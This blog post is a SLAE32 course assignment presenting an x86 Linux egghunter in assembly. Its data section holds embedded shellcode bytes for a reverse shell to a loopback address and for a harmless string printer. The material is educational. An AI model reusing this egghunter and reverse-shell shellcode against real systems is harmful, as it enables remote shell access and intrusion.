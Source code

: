 ```yaml
---
layout: post
title:  SLAE32 Assignment 3 - egghunter
excerpt: asm code for my egghunter
---
```

    ; name        : egghunter 
    ; author      : Sandro "guly" Zaccarini SLAE-1037
    ; purpose     : this code has been written for SLAE32 assignment 3
    ; license     : CC-BY-NC-SA
    ; description :
    ; this code will search a string in memory, repeated twice to avoid potential false positives, and when found jumps
    ; just after it to execute following code.
    ; because this course is about assembly, i'm trying avoid any C code, therefore also stage2 will be placed in this file in data section.
    ;
    ; the program starts from address memory 0x08048000 , because i know that .data places values there, and reads 4 bytes to compare to a known egg
    ; should be noted that a different scenario, where for example i exploited a buffer overflow, i could've places stage2 at stack page and the
    ; seek would be way longer
    ;
    ; i also know that not all addresses are readable by the program: that's why i'm checking if i can read before to compare.
    ;
    ; during the journey i learned about scasd: the op compares edi and eax and is just one byte, when a classic
    ; cmp is 2. saving 2 bytes in an egghunter could be lifesaver, but i'm using cmp anyway here
    ;
    
    global _start
    section .text
    
    exit:
    xor eax,eax
    mov al,0x1
    int 0x80
    
    trap:
    ret
    
    _start:
    ; start by zeroing eax and edx, because better safe than sorry
    xor eax,eax
    xor edx,edx
    ; and because i won't need ebx, and ecx will be completely overwritten by a mov later
    
    ; GUGU will match revshell, little endian.
    ; you can found revshell asm in github repo https://github.com/gulyslae/SLAE32
    mov esi, 0x55475547
    ; LYLY will match writeHelo, little endian
    ;mov esi, 0x594c594c
    
    ; i'm starting from 0x08048000 because i know where to look. i've started from 0x1000
    ; using dl as 0x1 and not 0x0 to avoid null byte
    ; actually, i don't needed to zero edx here: i'm moving a full 4bytes. in a real shellcode i probably had to start from 0x1000 as i said
    ; and that's why i'd need esx to be nulled
    mov edx, 0x08047001
    
    nextp:
    ; align page, for this example i would have it 0x08047fff
    or dx, 0xfff
    
    nextb:
    ; and with this inc i'll be at the top of the memory page, which will be 0x08048000
    inc edx
    
    ; inc edx will result in an overflow of our 32bit register as soon as we reach 0xfffff000 memory segment
    ; by checking OF flag, we know that we reached the end of the memory: to avoid DoSsing the box, we call a neat exit
    jo exit
    
    ; check if we can read the memory
    ; i'm using sys_access syscall here, that has code 0x21
    ; she needs of course arguments:
    ; eax => sys_access id, 0x21
    ; ebx => pointer to page address
    xor eax, eax
    mov al, 0x21
    lea ebx, [edx+8]
    
    ; do the call
    int 0x80
    
    ; as usual, eax will hold res code. EFAULT, means noaccess, is 0xf2
    cmp al, 0xf2
    ; if we have a fault here, jump to next page by adding 0x1000
    jz nextp
    
    ; search for the egg
    cmp [edx], esi
    jnz nextb
    
    ; search again for 2nd copy of the egg (avoid matching code itself or any other false positive)
    cmp [edx+4], esi
    jnz nextb
    
    ; egg found, jump to shellcode
    lea esi, [edx + 8]
    call trap
    jmp esi
    
    section .data
    ; all shellcode ends with 0x31, 0xC0, 0xB0, 0x01, 0xCD, 0x80 which is my neat exit
    ; looking for EGG GUGU i'm going to receive a revshell on localhost port 65533 by using the code from 03_revshell_tcp.asm
    ;revshell: db 0x47,0x55,0x47,0x55,0x47,0x55,0x47,0x55,0x6a,0x66,0x58,0x6a,0x01,0x5b,0x31,0xc9,0x51,0x53,0x6a,0x02,0x89,0xe1,0xcd,0x80,0x89,0xc7,0xb0,0x66,0x5b,0x68,0x7f,0x01,0x01,0x01,0x66,0x68,0x04,0xd2,0x66,0x53,0x89,0xe1,0x6a,0x10,0x51,0x57,0x89,0xe1,0x43,0xcd,0x80,0x87,0xfb,0x6a,0x02,0x59,0xb0,0x3f,0xcd,0x80,0x49,0xb0,0x3f,0xcd,0x80,0x49,0xb0,0x3f,0xcd,0x80,0x31,0xd2,0x52,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x89,0xd1,0xb0,0x0b,0xcd,0x80
    revshell: db  0x47,0x55,0x47,0x55,0x47,0x55,0x47,0x55,0x31,0xc0,0x31,0xdb,0x50,0x40,0x50,0x40,0x50,0x89,0xe1,0xb0,0x33,0x04,0x33,0x43,0xcd,0x80,0x89,0xc6,0x31,0xc0,0x31,0xdb,0x68,0xac,0x10,0xc9,0xa2,0x68,0x7f,0x01,0x01,0x01,0x66,0x68,0xff,0xfb,0x66,0x6a,0x02,0x89,0xe1,0x6a,0x10,0x51,0x56,0x89,0xe1,0xb3,0x03,0xb0,0x33,0x04,0x33,0xcd,0x80,0x31,0xc9,0xb1,0x03,0x89,0xf3,0x31,0xc0,0xb0,0x3f,0x49,0xcd,0x80,0xb0,0x3f,0x49,0xcd,0x80,0xb0,0x3f,0x49,0xcd,0x80,0x51,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0x51,0x89,0xe2,0x51,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0x31,0xc0,0xb0,0x01,0xcd,0x80
    ; looking for EGG LYLY i'm just printing Helo string
    writeHelo: db 0x4c,0x59,0x4c,0x59,0x4c,0x59,0x4c,0x59,0x31,0xc0,0x31,0xdb,0x31,0xd2,0x50,0x68,0x48,0x65,0x6c,0x6c,0xb0,0x04,0xb3,0x01,0x89,0xe1,0xb2,0x04,0xcd,0x80,0x31,0xc0,0x31,0xdb,0xfe,0xc0,0xb3,0x05,0xcd,0x80
    
    ; This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
